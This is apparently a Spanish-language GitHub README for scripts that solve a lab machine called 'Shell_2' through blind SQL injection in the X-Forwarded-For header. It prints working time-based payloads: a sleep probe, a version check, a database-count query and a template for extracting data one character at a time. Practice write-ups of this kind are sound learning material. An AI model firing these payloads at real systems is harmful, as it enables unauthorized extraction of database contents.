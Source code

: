 # Shell2SQLi
Este repositorio contiene scripts utilizados para `Shell_2`, una máquina con vulnerabilidad SQLi Blind.

## Consideraciones de la máquina

Algunas consideraciones
> El host `192.168.44.134` no está editado en los scripts, la VM se utilizó con configuración NAT
> 
> Uso de encabezado `X-Forwarded-For`
> 
> https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval
> 
## Impacto vulnerabilidad SQLi

### Procedimiento:
Partiendo de la base en la que podemos validar una inyección exitosa en la cabecera `X-Forwarded-For` con `hack' or sleep(2) #`, además de que podemos consultar la versión de la base de datos con `test' or if(substring(@@version,1,1)='5',sleep(1),0) #`, buscamos con scrip1.sh hacer que el servidor SQL duerma 1 seg. que en el caso de la inyección, equivale a sleep(0.043), sólo si el número total de bases de datos es igual a un número que estamos probando. Para ello utilizamos la siguiente sentencia:
```mysql
1' or if((SELECT COUNT(SCHEMA_NAME) FROM INFORMATION_SCHEMA.SCHEMATA) = 'num', sleep(0.043), 0) #
```
Procedimos a 
```python
1' OR IF((SELECT SUBSTRING($column,$position,1) FROM $db_name.$table_name LIMIT $row_index,1)='$char', SLEEP(0.043), 0) #
```
    
## Disclaimer

El autor no se hace responsable de algún uso inadecuado del repositorio que pueda causar impactos negativos. El propósito es y sólo es, con fines educativos.
Las contribuciones son bienvenidas, también siéntete libre de mejorar y modificar según sea necesario.

